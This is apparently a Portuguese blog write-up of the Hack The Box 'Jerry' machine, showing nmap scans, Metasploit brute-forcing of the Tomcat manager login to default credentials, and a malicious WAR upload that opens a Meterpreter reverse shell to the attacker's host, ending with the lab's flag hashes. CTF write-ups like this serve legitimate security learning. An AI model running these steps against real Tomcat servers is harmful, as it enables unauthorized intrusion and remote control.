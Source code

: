 ```yaml
---
layout: default
title: Jerry [Hack The Box] - Explorando Apache Tomcat
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box]
---
```

Jerry é uma máquina windows nada díficil.

![](https://raw.githubusercontent.com/brerodrigues/brerodrigues.github.io/master/assets/img/jerry_htb.jpg)

Um scan do nmap padrão me fez desconfiar se estava mesmo conectado a vpn ou se tinha algo errado com minha conexão.

```
└──╼ $nmap -v -A  10.10.10.95 -oN nmap.txt
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-04 01:36 UTC
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating Ping Scan at 01:36
Scanning 10.10.10.95 [2 ports]
Completed Ping Scan at 01:36, 3.00s elapsed (1 total hosts)
Nmap scan report for 10.10.10.95 [host down]
NSE: Script Post-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.63 seconds
```

Mas, na verdade, o servidor estava bloqueando pings. Então usei -Pn.

```
└──╼ $nmap -v -A  10.10.10.95 -Pn -oN nmap.txt
# Nmap 7.70 scan initiated Tue Sep  4 00:34:18 2018 as: nmap -v -A -Pn -oN nmap.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  4 00:34:57 2018 -- 1 IP address (1 host up) scanned in 38.80 seconds
```

Um servidor web apache tomcat. Acessando o http://10.10.10.95:8080 temos a mensagem que "If you're seeing this, you've successfully installed Tomcat. Congratulations!". É uma instalação padrão sem muito a oferecer. O botão "Server Status" nos leva ao link: http://10.10.10.95:8080/manager/status onde é listado que o servidor é um Windows Server 2012 R2, a versão do jvm e outras coisinhas. Informações que podem ser úteis no futuro.

Por alguns minutos procurei como configurações default do tomcat poderiam permitir uma hackeada e não encontrei algo interessante. O Dirbuster também não estava dando resultados.
Ok... Hora de pensar melhor. Estava com sono e apenas seguindo uns passos padrões tipo nmap, dirbuster e exploração de algo óbvio. Mas não é assim que se faz essa porra. Foi hora de dar um passo atrás e repensar no que tinha até o momento, afinal, pela avaliação da galera, essa máquina deveria ser fácilima. E a única coisa que parecia ser a porta de entrada era a o http://10.10.10.95:8080/manager. Claro que já havia tentado umas senhas padrão ridículas como admin/admin mas quem sabe não havia algo além? Em meio as minhas pesquisas em relação a essa página de login vi esse módulo auxiliar do metasploit: [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) e pensei: por que não?

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
Description:
  This module simply attempts to login to a Tomcat Application Manager
  instance using a specific user/pass.
```

Nada mágico, apenas se usará uma lista de usuario/senha e tentará logar no application manager.
Setei os bagulhos do metasploit e botei o bicho para rodar enquanto pensava e pesquisava por outros meios de acesso.

```
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 10.10.10.95
[!] RHOST is not a valid option for this module. Did you mean RHOSTS?
RHOST => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Eu realmente não acreditava que isso ia dar em algum lugar. Eles me ensinaram que ataques de força bruta são praticamente inúteis. Maldito livro proibido do curso de hacker!

```
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
```

Mas olhe só... O usuário tomcat usa a senha secreta s3cret. Agora sim temos algo útil.
Ao acessar o manager temos as aplicações que estão rodando no servidor e temos o poder de dar deploy em um arquivo war nosso. Em outras palavras: execução de código que com certeza será malicioso. Se você não sabe, deveria pesquisar sobre o que é um deploy em um servidor tomcat, como o java faz as coisas e os carais. Não seja um kiddie que vai setar as coisas no metasploit e sair rodando. Que seja. Foda-se. Na verdade, um kiddie não faria ideia do que fazer ao ver uma página como essa onde não dá pra upar seu c99.php. C99... Estou velho. Seja um kiddie, seja feliz. Vote 666 e desbloqueie o Enéas na urna eletrônica.

Agora sim essa máquina ficou fácil pra carai. E o metasploit, convenientemente, tem um outro módulo para fazer upload e executar um war maliciosissimo em um server que se tenha o usuário e senha: [https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload)

```
msf exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
```

Sem esquecer do payload:

```
msf exploit(multi/http/tomcat_mgr_upload) > set PAYLOAD windows/meterpreter_reverse_tcp
msf exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.200
```

E mandar um exploit.

```
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.200:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Executing jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Meterpreter session 1 opened (10.10.14.200:4444 -> 10.10.10.95:49194) at 2018-09-04 01:15:07 +0000
[*] Undeploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF ...
```

Que coisa linda, rapaz.

Sem dificuldade, dentro da pasta C:\Users\Administrator\Desktop\flags> há o arquivo '2 for the price of 1.txt'

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,587,751,936 bytes free
```

Esqueci o comando para ler um arquivo no Windows, então voltei ao meterpreter só pra isso:

```
meterpreter > cat "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

Se tiver afim de ler o write-up de uma máquina menos fácil, dá uma sacada na [canape](https://brerodrigues.github.io/ctfs/favorites/canape-hack-the-box-write-up).
